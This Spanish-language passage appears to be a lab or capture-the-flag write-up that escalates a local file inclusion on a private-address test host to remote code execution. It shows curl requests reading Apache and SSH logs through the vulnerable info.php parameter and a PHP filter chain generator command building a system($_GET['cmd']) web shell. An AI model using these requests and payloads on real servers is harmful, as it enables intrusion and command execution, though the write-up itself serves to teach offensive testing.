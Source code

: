 Para ello debo saber que funciones se encuentran deshabilitadas en el sistema, por lo que filtor por disable_functions en info.php, veo que puedo utilizar system(), shell_exec() entre otras ya que no se encuentran deshabilitadas.

![imagen](https://github.com/user-attachments/assets/174aabe9-a42d-4532-8eed-f7fd8d671a00)

Intento listar los logs de apache2, pero se ve que por permisos de archivos y directorios no he sido capaz, por lo que escalar el LFI a RCE a través de envenenamiento de los logs de apache lo descarto

```bash
curl -s -X GET "http://192.168.2.139/antibot_image/antibots/info.php/?image=/var/log/apache2/access.log" | tail
<p>
This program is free software; you can redistribute it and/or modify it under the terms of the PHP License as published by the PHP Group and included in the distribution in the file:  LICENSE
</p>
<p>This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
</p>
<p>If you did not receive a copy of the PHP license, or have any questions about PHP licensing, please contact license@php.net.
</p>
</td></tr>
</table>
</div></body></html>
```

Intento listar los logs de SSH, consigo listar los logs sin problema, por lo que ya tengo una vía potencial para escalar el LFI a RCE

```bash
curl -s -X GET "http://192.168.2.139/antibot_image/antibots/info.php/?image=/var/log/auth.log" | tail
Feb  3 12:09:01 ubuntu CRON[1887]: pam_unix(cron:session): session opened for user root by (uid=0)
Feb  3 12:09:01 ubuntu CRON[1887]: pam_unix(cron:session): session closed for user root
Feb  3 12:10:01 ubuntu CRON[1939]: pam_unix(cron:session): session opened for user root by (uid=0)
Feb  3 12:10:01 ubuntu CRON[1939]: pam_unix(cron:session): session closed for user root
Feb  3 12:15:01 ubuntu CRON[1944]: pam_unix(cron:session): session opened for user root by (uid=0)
Feb  3 12:15:01 ubuntu CRON[1944]: pam_unix(cron:session): session closed for user root
Feb  3 12:17:01 ubuntu CRON[1949]: pam_unix(cron:session): session opened for user root by (uid=0)
Feb  3 12:17:01 ubuntu CRON[1949]: pam_unix(cron:session): session closed for user root
Feb  3 12:20:01 ubuntu CRON[1952]: pam_unix(cron:session): session opened for user root by (uid=0)
Feb  3 12:20:01 ubuntu CRON[1952]: pam_unix(cron:session): session closed for user root
```

Yo en este caso voy a optar por utilizar la herramienta PHP filter chain generator que permite generar cadenas filter PHP para obtener un RCE sin necesidad de subir un archivo

* [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator)

![imagen](https://github.com/user-attachments/assets/3f912d56-8e72-4cad-b447-2399b06c3c5e)

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```
